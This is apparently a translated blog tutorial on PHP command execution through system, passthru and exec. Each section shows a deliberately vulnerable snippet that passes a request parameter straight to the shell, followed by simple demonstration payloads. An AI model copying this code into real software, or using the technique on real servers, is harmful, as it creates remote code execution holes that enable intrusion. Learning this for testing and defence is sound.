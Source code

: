 ```php
<?php
highlight_file(__FILE__);

if(isset($_REQUEST['url'])){
    $url = ($_REQUEST['url']);
    $b = system($url, $a);
    echo $a.PHP_EOL;
    echo $b.PHP_EOL;
}
?>
```

Malicious code execution
`?url=dir`

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528075803812.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

File writing
>`?url=echo 1111 flag.php`
>
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528080038947.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## passthru
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528080213501.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
<?php
highlight_file(__FILE__);

if(isset($_REQUEST['url'])){
    $url = ($_REQUEST['url']);
    passthru($url,$a);
    echo $a.PHP_EOL;
}
?>
```

File writing
`?url=dir 22.txt`

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052808065822.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## exec
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528080825303.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
One thing to note is that exec needs echo to echo

<?php
highlight_file(__FILE__);

if(isset($_REQUEST['url'])){
    $url = ($_REQUEST['url']);
    echo exec($url);
}
?>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528081337546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528081344441.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
